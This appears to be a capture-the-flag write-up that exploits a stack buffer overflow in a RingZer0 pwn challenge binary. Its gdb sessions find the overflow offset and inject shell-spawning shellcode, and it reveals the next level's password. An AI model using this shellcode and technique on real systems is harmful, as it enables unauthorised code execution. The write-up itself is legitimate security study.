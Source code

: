 # Level 1 Ringzer0 Pwn challenges

Okay so from the C code, we can see that it is a really basic buffer overflow with no effort. Let's attempt it

## Proof of concept
We know the buffer is 1024 bytes but we need to know how many bytes are needed to overwrite the EIP. So let's get started with that.
```text
level1@lxc-pwn-x86:/levels$ gdb -q level1
Reading symbols from level1...done.
(gdb) r $(python -c 'print "A"*1032 + "BBBB"')
Starting program: /levels/level1 $(python -c 'print "A"*1032 + "BBBB"')

Program received signal SIGSEGV, Segmentation fault.
0xf7e34600 in __libc_start_main () from /lib32/libc.so.6

(gdb) r $(python -c 'print "A"*1036 + "BBBB"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /levels/level1 $(python -c 'print "A"*1036 + "BBBB"')

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()

```

After some trial and error, we know that the payload size has to be 1036 bytes and then it has to follow up with the address of the buffer. 

## Completed Exploit
Now we need to find out the address of where our potential shellcode will be

For this, we set a breakpoint and then find the address where it is starting
```text
(gdb) r $(python -c 'print "A"*1036 + "BBBB"')
Starting program: /levels/level1 $(python -c 'print "A"*1036 + "BBBB"')

Breakpoint 1, main (argc=0, argv=0xffffd904) at level1.c:11
11      }
(gdb) print $esp
$1 = (void *) 0xffffd450

(gdb) x/wx 0xffffd450
0xffffd450:     0xffffd460

(gdb) x/wx 0xffffd460
0xffffd460:     0x41414141
```

Nice, we know that shellcode will start at address 0xffffd460. Let's set it as that, input our shellcode and get shell!
```text
(gdb) r $(python -c 'print "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x99\x52\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*1012 + "\x60\xd4\xff\xff"')
Starting program: /levels/level1 $(python -c 'print "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x99\x52\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*1012 + "\x60\xd4\xff\xff"')
process 15230 is executing new program: /bin/sh
process 15230 is executing new program: /bin/bash
```
Yay! Let's try it outside GDB
```text
level1@lxc-pwn-x86:/levels$ ./level1 $(python -c 'print "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x99\x52\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*1012 + "\x60\xd4\xff\xff"')
Segmentation fault
```

Get rekt lmao

Okay then, after a lot of time searching on the internet, it most likely is the case where my address isn't hitting the shellcode outside GDB. because the address has changed. One solution to this is brute forcing it, and that's exactly what I did, because I honestly can't think of any other solution when GDB has let me down.

```text
level1@lxc-pwn-x86:/levels$ ./level1 $(python -c 'print "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x99\x52\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*1012 + "\x70\xd4\xff\xff"')
Segmentation fault

level1@lxc-pwn-x86:/levels$ ./level1 $(python -c 'print "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x99\x52\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*1012 + "\x80\xd4\xff\xff"')
level2@lxc-pwn-x86:/levels$ cat ~/.pass
TJyK9lJwZrgqc8nIIF6o
level2@lxc-pwn-x86:/levels$ exit
exit
```

Yay! We got shell bois, the return address was at a different address. Even though ASLR was off. Weird phenomenon and if anyone who's reading this knows, please do email me an answer I'm super interested to know why. 

The password to the next level is 
```text
TJyK9lJwZrgqc8nIIF6o
```

